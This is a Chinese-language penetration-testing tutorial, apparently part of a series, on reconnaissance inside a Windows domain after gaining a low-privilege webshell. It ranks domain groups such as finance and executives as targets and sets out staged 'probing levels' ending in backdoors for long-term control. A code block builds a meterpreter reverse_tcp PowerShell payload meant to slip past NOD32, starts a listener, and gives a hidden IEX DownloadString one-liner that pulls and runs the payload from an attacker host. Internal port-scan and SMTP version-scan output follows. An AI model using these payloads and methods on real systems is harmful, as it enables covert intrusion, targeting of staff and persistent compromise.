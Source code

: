
>   目标资产信息搜集的程度，决定渗透过程的复杂程度。

>   目标主机信息搜集的深度，决定后渗透权限持续把控。

>   渗透的本质是信息搜集，而信息搜集整理为后续的情报跟进提供了强大的保证。

>   ----Micropoor

文章将连载，从几方面论证，**渗透的本质是信息搜集**。

一次完整的网络渗透，不仅仅是与目标管理人员的权限争夺，一次完整的网络渗透，它分为两大块，**技术业务**与**信息分析业务**。

而**技术业务要辅助并且要为信息分析业务提供强大的支撑与保证**。同时**信息分析业务要为技术业务提供关键的目标信息分析逻辑关系与渗透方向**。

案例如下：(非root/administrator下主动信息搜集)（有马赛克）

在得到一个webshell时，非root/administrator情况下对目标信息搜集至关重要，它会影响后期的渗透是否顺利，以及渗透方向。

目标主机分配了2个内网IP，分别为 10.0.0.X 与 192.168.100.X  
![](/img/8662257637ef2af4586f753a113dae25.jpg)

得知部分服务软件，以及杀毒软件 NOD32，一般内网中为杀毒为集体一致。

![](/img/648cf924f838838a640e5d845c6b0a26.jpg)

搜集补丁更新频率，以及系统状况  
![](/img/bf97b8416a0bb48ff30263a02da4c80b.jpg)

搜集安装软件以及版本，路径等。  

![](/img/300fe596787c9c2cbebd471591629f6b.jpg)  

![](/img/caae57861800df2ea13d2677b2ac8a1c.jpg)

域中用户如下。目前权限为 iis apppool\xxxx  

![](/img/71d9d6527589b430f48a7ca0a1efdce2.jpg)

正如上面所说，技术业务需要辅助分析业务。在域组中，其中有几个组需要特别关注，在一般的大型内网渗透中，需要关注大致几个组

**（1）IT组/研发组** 他们掌握在大量的内网密码，数据库密码等。  
**（2）秘书组** 他们掌握着大量的目标机构的内部传达文件，为信息分析业务提供信息，在反馈给技术业务来确定渗透方向  
**（3）domain admins组** root/administrator  
**（4）财务组**  他们掌握着大量的资金往来与目标企业的规划发展，并且可以通过资金，来判断出目标组织的整体架构  
**（5）CXX组** ceo cto coo等，不同的目标组织名字不同，如部长，厂长，经理等。  

![](/img/fcb0d45dbf09c50adbf473f85fb468c0.jpg)

以研发中心为例：研发中心共计4人。

**并且开始规划信息刺探等级：**

**等级1：**确定某部门具体人员数量 如研发中心4人  
**等级2：**确定该部门的英文用户名的具体信息，如姓名，联系方式，邮箱，职务等。以便确定下一步攻击方向  
**等级3：**分别刺探白天/夜间  内网中所存活机器并且对应IP地址  
**等级4：** 对应人员的工作机内网IP，以及工作时间  
**等级5：** 根据信息业务反馈，制定目标安全时间，以便拖拽指定人员文件，或登录目标机器  
**等级6：** 制定目标机器后渗透与持续渗透的方式以及后门

### 刺探等级1
![](/img/cc9a229d319f91d109bd7a84874fa341.jpg)

### 刺探等级2
![](/img/5305a8890be45902aacb107373c3a046.jpg)

![](/img/35fed4bbfade4243fb017db7c199822f.jpg)

在 net user /domain 后得到域中用户，但需要在**非root/administrator**权限下得到更多的信息来给信息分析业务提供数据，并确定攻击方向。

在案例中针对 nod32，采用 powershell payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx
LPORT=xx -f psh-reflection > xx.ps1
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost xxx.xxx.xxx.xxx lhost => xxx.xxx.xxx.xxx
msf exploit(handler) > set lport xxx lport => xxx
msf > run

powershell -windowstyle hidden -exec bypass -c "IEX (New-ObjectNet.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/xxx.ps1');"
```
注意区分目标及系统是32位还是64位。  

![](/img/65937ec4401b9b85a2a7280e6e8b1e14.jpg)  

![](/img/98463d3aa553b77e77a057eae6a3f57c.jpg)  

![](/img/6ef6fb36515c9ab57e0e38a24e2fc809.jpg)  

![](/img/2b7fd17d2d1c8c1ffd13134ce502c1b5.jpg)  

![](/img/627f7d0b2cf780725115a7eaa1dfb01b.jpg)

接下来将会用 IIS APPPOOL\\XXXX 的权限来搜集更多有趣的信息  

![](/img/50409d7054b3842df85370c03b4c88f8.jpg)

某数据库配置 for mssql  

![](/img/474c1c2549316bbf317fa0ee1be8c461.jpg)  

![](/img/7f942b8a47046f622a76c9fcfa17131e.jpg)

白天测试段10.0.0.x段在线主机 for windows （部分）  

![](/img/c1dc05330e082caae0c6895ac1c1abcb.jpg)

### 10.0.0.x 段信息刺探：
IP 1-50 open 3389 （部分）  

![](/img/04045975dcc3d3b9aacfe9ed44cc8a45.jpg)  

```bash
[+] 10.0.0.2: - 10.0.0.2:3389 - TCP OPEN
[+] 10.0.0.3: - 10.0.0.3:3389 - TCP OPEN
[+] 10.0.0.5: - 10.0.0.5:3389 - TCP OPEN
[+] 10.0.0.7: - 10.0.0.7:3389 - TCP OPEN
[+] 10.0.0.9: - 10.0.0.9:3389 - TCP OPEN
[+] 10.0.0.12: - 10.0.0.12:3389 - TCP OPEN
[+] 10.0.0.13: - 10.0.0.13:3389 - TCP OPEN
[+] 10.0.0.14: - 10.0.0.14:3389 - TCP OPEN
[+] 10.0.0.26: - 10.0.0.26:3389 - TCP OPEN
[+] 10.0.0.28: - 10.0.0.28:3389 - TCP OPEN
[+] 10.0.0.32: - 10.0.0.32:3389 - TCP OPEN
```
IP 1-255 open 22,25 （部分）  

![](/img/d75d26fbe0f7bf91da3fe7db65c58c76.jpg)  

```bash
[+] 10.0.0.3: - 10.0.0.3:25 - TCP OPEN
[+] 10.0.0.5: - 10.0.0.5:25 - TCP OPEN
[+] 10.0.0.14: - 10.0.0.14:25 - TCP OPEN
[+] 10.0.0.15: - 10.0.0.15:22 - TCP OPEN
[+] 10.0.0.16: - 10.0.0.16:22 - TCP OPEN
[+] 10.0.0.17: - 10.0.0.17:22 - TCP OPEN
[+] 10.0.0.20: - 10.0.0.20:22 - TCP OPEN
[+] 10.0.0.21: - 10.0.0.21:22 - TCP OPEN
[+] 10.0.0.31: - 10.0.0.31:22 - TCP OPEN
[+] 10.0.0.38: - 10.0.0.38:22 - TCP OPEN
[+] 10.0.0.40: - 10.0.0.40:22 - TCP OPEN
[+] 10.0.0.99: - 10.0.0.99:22 - TCP OPEN
[+] 10.0.0.251: - 10.0.0.251:22 - TCP OPEN
[+] 10.0.0.254: - 10.0.0.254:22 - TCP OPEN
```
IP 1-255 smtp for version （部分）  

![](/img/9c33b4d83946e383cce75062f50138cd.jpg)  


```bash
msf auxiliary(smtp_version) \> run

[+] 10.0.0.3:25 - 10.0.0.3:25 SMTP 220 xxxxxxxxxxxxxxxxx MAIL Service,Version: 7.5.7601.17514 ready at Wed, 14 Feb 2018 18:28:44 +0800 \\x0d\\x0a
[+] 10.0.0.5:25 - 10.0.0.5:25 SMTP 220 xxxxxxxxxxxxxxxxx Microsoft ESMTP MAIL Service, Version: 7.5.7601.17514 ready at Wed, 14 Feb 2018 18:29:05 +0800 \\x0d\\x0a
[+] 10.0.0.14:25 - 10.0.0.14:25 SMTP 220 xxxxxxxxxxxxxxxxxt ESMTP MAIL Service, Version: 7.0.6002.18264 ready at Wed, 14 Feb 2018 18:30:32 +0800 \\x0d\\x0a
```  

![](/img/aa86c13c60cfabb912e9f7bdf7517ccf.jpg)

在iis apppool\xxxx的权限下，目前得知该目标内网分配段，安装软件，杀毒，端口，服务，补丁更新频率，管理员上线操作时间段，数据库配置信息，域用户详细信息（英文user对应的职务，姓名等），以上数据等待信息分析业务，来确定攻击方向。如财务组，如cxx组等。并且完成了**刺探等级1-4**

而在以上的信息搜集过程中，提权不在是我考虑的问题了，可以Filezilla server提权，mssqsl数据库提权，win03提权，win2000提权，win08提权，iis.x提权，内网映射提权等。而现在需要做的是如何反制被发现来制定目标业务后门，以便长期控制。

下一季的连载，将会从三方面来讲述大型内网的信息刺探，既有0day的admin权限下刺探，无提权下的guest/users权限下刺探。数据库下的权限刺探。域权限延伸到办公PC机的信息刺探。以及只有路由权限下的信息刺探。原来在渗透过程中，提权是次要的，信息刺探才是渗透的本质。  

>   Micropoor
